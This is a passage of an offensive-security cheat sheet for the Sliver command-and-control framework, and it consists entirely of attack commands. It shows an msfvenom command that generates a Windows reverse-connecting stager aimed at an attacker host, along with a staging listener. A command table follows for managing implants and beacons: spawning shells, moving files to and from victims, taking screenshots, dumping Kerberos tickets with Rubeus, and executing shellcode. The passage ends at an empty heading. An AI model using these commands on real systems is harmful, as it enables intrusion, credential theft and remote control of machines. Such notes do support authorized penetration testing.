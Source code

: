 or

```console
$ msfvenom -p windows/x64/custom/reverse_winhttp LHOST=<LHOST> LPORT=<LPORT> LURI=/<NAME>.woff -f raw -o /PATH/TO/BINARY/<FILE>.bin
```

```console
sliver > stage-listener --url http://<LHOST>:<LPORT> --profile <PROFILE> --prepend-size
```

### Common Commands, Implant and Beacon Handling

```console
sliver > mtls                                                             // Mutual Transport Layer Security
sliver > mtls --lport <LPORT>                                             // set MTLS port
sliver > jobs                                                             // display current jobs
sliver > implants                                                         // show all created implants
sliver > sessions                                                         // display currently available sessions
sliver > sessions -i <ID>                                                 // interact with a session
sliver > use -i <ID>                                                      // interact with a session
sliver > sessions -k <ID>                                                 // kill a session
sliver > upload /PATH/TO/LOCAL/FILE/<FILE> /PATH/TO/REMOTE/DIRECTORY      // upload a file
sliver > download /PATH/TO/LOCAL/FILE/<FILE> /PATH/TO/REMOTE/DIRECTORY    // download a file
sliver (NEARBY_LANGUAGE) > rename -n <NAME>                               // rename beacon
sliver (NEARBY_LANGUAGE) > reconfig -i 30s -j 0s                          // reconfigure beacon
sliver (NEARBY_LANGUAGE) > beacons prune                                  // remove lost beacons
sliver (NEARBY_LANGUAGE) > tasks                                          // show tasks
sliver (NEARBY_LANGUAGE) > tasks fetch 49ead4a9                           // fetch a specific task
sliver (NEARBY_LANGUAGE) > info                                           // provide session information
sliver (NEARBY_LANGUAGE) > shell                                          // spawn a shell (ctrl + d to get back)
sliver (NEARBY_LANGUAGE) > netstat                                        // get network information
sliver (NEARBY_LANGUAGE) > interactive                                    // interact with a session
sliver (NEARBY_LANGUAGE) > screenshot                                     // create a screenshot
sliver (NEARBY_LANGUAGE) > background                                     // background the session
sliver (NEARBY_LANGUAGE) > seatbelt -- -group=getsystem                   // execute from armory with parameter
sliver (NEARBY_LANGUAGE) > rubeus -- dump /nowrap                         // execute from armory with parameter
sliver (NEARBY_LANGUAGE) > execute-assembly <FILE>.exe uac                // execute a local binary
sliver (NEARBY_LANGUAGE) > execute-shellcode <FILE>.bin uac               // execute a local binary
```

### Spawning new Sessions
